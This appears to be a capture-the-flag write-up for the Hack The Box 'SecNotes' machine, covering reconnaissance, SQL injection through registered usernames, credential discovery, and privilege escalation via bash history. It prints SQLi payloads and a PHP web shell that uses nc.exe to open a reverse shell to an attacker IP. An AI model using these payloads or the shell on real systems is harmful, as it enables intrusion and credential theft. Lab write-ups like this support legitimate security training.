



# SecNotes

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 10.0 PHP  
- port 445/tcp SMB Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)  
- port 8808/tcp HTTP Microsoft IIS httpd 10.0  

SMB anonymous access disabled

port 80 directory enumeration shows:
- auth.php -> 500
- login.php -> 200
- register.php -> 200

port 8808 shows no directories and the index is IIS default splash page

Registering and logging in shows a message exposing a potential username



The username parameter is used to load notes related to the user, it's vulnerable to SQLi by registering a 
user called `' OR 1=1;#` (Heath uses `'OR 1 OR'` and other payloads in Burp Intruder Sniper to check valid 
usernames)

On login all user notes are displayed, one note contains an SMB directory and credentials for tyler

### Exploitation

The SMB share contains the index for the server on port 8808

We can upload files but .asp and .aspx files return 404s, PHP files will execute however

We can use nc.exe and a custom PHP shell to get a reverse shell by uploading nc.exe and the PHP shell

```
# rev.php
<?php
system('nc.exe -e cmd.exe 10.10.10.2 4444)
?>
```

Use smbclient to upload nc.exe and the PHP shell, then start a listener and navigate to /rev.php to get a 
shell as tyler

### Privilege Escalation

Find bash.exe and run



Root in bash.exe, look at /root bash history



Access C:\ drive as admin with smbclient credentials found in history

Get root flag
